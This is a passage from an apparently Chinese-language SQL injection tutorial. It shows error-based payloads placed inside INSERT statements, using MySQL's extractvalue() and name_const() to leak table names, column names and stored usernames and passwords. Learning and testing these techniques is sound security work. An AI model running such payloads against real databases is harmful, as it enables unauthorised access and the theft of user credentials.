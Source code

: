 ```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 1,1))) or'', 'Nervo'); 
```

![enter image description here](img/img17_u35_png.jpg)

获取 users 表的列名：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1))) or'', 'Nervo'); 
```

![enter image description here](img/img18_u33_png.jpg)

获取 users 表的数据：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat_ws(':',id, username, password) FROM users limit 0,1))) or '', 'Nervo'); 
```

![enter image description here](img/img19_u30_png.jpg)

同样，我们可以用 insert、update、delete 语句获取到数据库表名、列名，但是不能用 update 获取当前表的数据。

## 0x05 利用 name_const()获取数据

* * *

name_const()函数是 MYSQL5.0.12 版本加入的一个返回给定值的函数。当用来产生一个结果集合列时 , NAME_CONST() 促使该列使用给定名称。

Payload：

```
or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or 
```

Insert：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '','Nervo'); 
```
